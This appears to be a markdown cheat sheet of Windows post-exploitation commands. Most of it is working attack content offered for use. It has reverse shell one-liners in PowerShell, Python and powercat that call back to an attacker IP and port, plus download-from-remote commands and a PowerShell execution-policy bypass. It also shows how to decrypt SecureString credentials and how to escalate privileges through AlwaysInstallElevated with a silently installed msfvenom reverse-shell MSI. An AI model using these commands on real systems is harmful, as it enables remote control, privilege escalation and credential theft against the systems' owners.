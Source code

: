 ## getting a reverse shell:-
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` (via powershell)<br />
or<br />
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["cmd.exe"]);'` (via python) 
or<br />
`powercat -c "IP" -p PORT -e cmd.exe` (via powercat)<br />
or<br />
simply use netcat
## first move to a powershell:-
powershell.exe

## then the obvious:-
`whoami`<br />
`echo %username%` (if whoami doesnt work) ONLY FOR CMD NOT FOR POWERSHELL<br />
`$ENV:USERNAME` (if whoami doesnt work) ONLY FOR POWERSHELL NOT FOR CMD<br />
`whoami /priv`<br />
`net user`<br />
`net localgroup Administrators`<br />
`Get-ExecutionPolicy`<br />
`powershell.exe -ep bypass` (to set execution policy to bypass)<br />
`Get-Host | Select-Object Version` (to check the whole version of powershell)<br />
`$PSVersionTable.PSVersion.Major` (to check the version of powershell)


## About the system and proccess running:-
`systeminfo`<br />
`tasklist`<br />
`([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)` (to check if you r admin or not)<br />
`(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1")` (to check for smb version 1)<br />

## Locate files in the whole drive
`dir filename.extension /s` (do it from C:\ folder)(supports regex)
`dir /a /q` (linux like ls -la, gives time modified as well as file owner)

## Show all folders and files including hidden ones
* `dir /a` - For cmd.exe
* `dir -force` - For powershell.exe
<br />

## To Download somthing from the internet or intranet:-
`powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://ip address/domain:port/file","download location's full path\programname.extension")`<br />
`powershell Invoke-Webrequest -OutFile 'Dstn path.Extension' -Uri http://ip address/domain:port/file`

**Note**: 
    curl too works in powershell, except for windows-IoT and similar minimal installations <br />
#### usage example:
    curl http://<IP>:<PORT>/file_name -Output Output_filename     

## Decrypting Powershell SecureString (ONLY WORKS WHEN YOU ARE THE OWNER OF THE XML FILE)
### If you have a xml object file

`$credential = Import-CliXml -Path  PathToXml\MyCredential.xml` <br />
`$credential.GetNetworkCredential().Password` <br />

### If you have a single string

`$secretStuff = Get-Content  -Path secretstuff.txt | ConvertTo-SecureString` <br />
`[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($secretStuff))))`

## Checking and exploiting AlwaysInstallElevated Permission

To check if this permission is enabled or not

1. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
2. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If both of these come 0x1 then that means the permissions is allowed.
If it is allowed then we can install any .msi file with system privelages so now we just need to make a payload from msfvenom like this "msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=2345 --encoder x64/xor --iterations 9 --format msi --out test.msi" and put it in the target box and simply execute it by not trigger the uac and any gui with this "msiexec /quiet /qn /i test.msi" and u get a shell on your listener

## Checking any remaing sticky keys

Sometimes users do put stuff in sticky keys which is stored in C:\Users\USER\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState
